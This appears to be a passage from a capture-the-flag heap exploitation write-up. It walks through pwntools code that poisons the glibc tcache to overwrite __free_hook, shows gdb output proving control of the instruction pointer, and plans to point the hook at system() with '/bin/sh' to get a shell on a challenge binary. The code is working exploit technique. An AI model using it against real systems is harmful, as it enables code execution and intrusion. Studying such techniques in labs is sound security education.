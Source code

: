 Let's prove we can gain control of the `RIP` register really easy
```python
log.info("Allocating 0x30 (exploit overlapping chunks)")
data  = b''
data += b"A" * 0x8 # Reach fake chunk's fwd pointer within 0x30 chunk
# Change its size to anything other than 0x120 to prevent it from
# going back to the 0x120 bin
data += p64(0x130)
data += p64(libc + 0x3ed8e8) # Pointer to __free_hook as next entry in list
create_chunk(0x30, data)

log.info("Allocating 0x120 twice, overwriting __free_hook and triggering it")
# First remove _our_ chunk from the list and place it in the 0x130 list,
# then allocate a pointer to __free_hook and overwrite it with an arbitrary ptr
create_chunk(0x120, p64(0x6c6c6f726b636972))
```
In gdb:
```
$rax   : 0x6c6c6f726b636972 ("rickroll"?)
$rdi   : 0x00007ffff7bed8e8  →  "rickroll"

 → 0x7ffff7897c25 <free+725>       call   rax
```

### It's past my bedtime (or it's time to finally put it all together)
The reason why the `__free_hook` way is so easy is because when the program calls to `free()` (and through it to the address we place in its hook) it is already passing as argument an address to something we control (the motherfucking chunk to which we just wrote). So if we were to place in `__free_hook`... I don't know, `system()` for example, while writing at the beginning of our chunk something like `/bin/sh`, we may win a shell. Now, we can't place a null terminator for this string, but `;` will do the job just fine.<span id="4"><a href="#4_"><sup>4</sup></a>
```python
from pwn import *

r = process("./binary")
deltat = .05

def create_chunk(size, contents = None):
    # Fill buffer with a string with desired size for strlen()
    r.write(b"X" * (size - 0x8) + b'\0'); sleep(deltat)
    if(contents is None): return

    idx = None
    previdx = None
    while (idx := contents.rfind(b'\0', 0, idx)) != -1:
        # Write what goes between the null we are considering now, and the
        # one we considered the last iteration
        if len(contents[idx + 1:previdx]) != 0:
            r.write(b"Y" * (idx + 1) + contents[idx + 1:previdx]); sleep(deltat)
        # Place the null where it belongs
        r.write(b"Z" * (idx - 1) + b'\n'); sleep(deltat)
        previdx = idx
    r.write(contents[:previdx]); sleep(deltat)

### Fill tcache bin for 0x100 ###
log.info("Filling tcache bin 0x100")
log.info("Allocating 0x100") # First one is for free
create_chunk(0x100)
for i in range(6):
    log.info("Allocating 0x%03x" % (0x1f0 - (i * 0x10)))
    create_chunk(0x1f0 - (i * 0x10))
log.info("Allocating 0x100 (overflowing)")
r.write(b"A" * (0x100 - 9) + b'\n' + b'\0'); sleep(deltat)
```